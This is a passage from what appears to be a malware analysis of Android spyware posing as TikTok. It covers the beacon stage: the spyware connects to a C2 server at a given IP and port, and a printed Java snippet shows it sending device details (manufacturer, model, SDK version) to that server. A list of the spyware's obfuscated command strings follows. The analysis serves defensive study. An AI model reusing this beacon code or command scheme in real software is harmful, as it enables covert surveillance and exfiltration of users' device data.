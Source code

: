 ```java
        }
    }
}
```

After completing all these steps to ensure persistence, the spyware starts its actual task. To establish a connection with the C2 server and listen for commands, it initiates a new thread.


## The Beacon

![](/blogs/assets/tiktok/ttsp/ttsp-04.png)

Once the thread begins its execution, the application promptly creates a new socket and establishes a connection to the IP address `192.168.43.34` on port `4234`. It listens for various commands sent by the server and reacts accordingly. First of all it sends a string to the C2.
```java
MainService.this.sendip = MainService.this.resultipcount + "|Tik tok|" + MainService.this.resultip + "|" + MainService.this.buildx + "|" + MainService.this.mOdel + "|" + MainService.this.prox + "|1.1.1|" + MainService.this.apilev + "|8axxr32";
DataOutputStream dataOutputStream = MainService.outputStream;
StringBuilder sb = new StringBuilder();
sb.append("#");
sb.append(MainService.this.sendip);
dataOutputStream.writeBytes(sb.toString());
```
where
```
this.buildx => The manufacturer of the device
this.m0del => The end-user-visible name for the device.
this.prox => The name of the overall product
this.apilev => The SDK version of the software running on the device
```
Once the device information is sent, the application actively awaits incoming commands from the C2. Below is a comprehensive list of various commands involved:
```
Spex22c|
Unistxcr
dowsizetr
DOWdeletx
Xr7aou
Caspylistx
spxcheck
S8p8y0
Sxpxy1
screXmex
Batrxiops
L4oclOCMAWS
FdelSRRT
chkstzeaw
IODBSSUEEZ
GUIFXB
LUNAPXER
Gapxplister
DOTRall8xxe
Acouxacour
Fimxmiisx
Scxreexcv4
micmokmi8x
DTXXTEGE3
ODDSEe
Yufsssp
getsssspo
DXCXIXM
```